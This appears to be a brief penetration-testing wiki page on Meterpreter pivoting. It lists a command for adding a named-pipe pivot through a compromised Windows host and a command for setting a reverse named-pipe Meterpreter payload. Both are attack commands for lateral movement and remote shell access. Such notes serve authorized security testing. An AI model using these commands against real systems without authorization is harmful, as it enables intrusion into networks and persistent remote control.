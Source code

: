 ```yaml
---
cover: ../../.gitbook/assets/Standard Banner.jpg
coverY: 0
---
```


# Meterpreter

#### Pivoting in Meterpreter

`pivot add -t pip -l PIPEHOST -n PIPENAME -a <x86 or x64> -p windows`

`set payload windows/meterpreter/reverse_named_pipe`
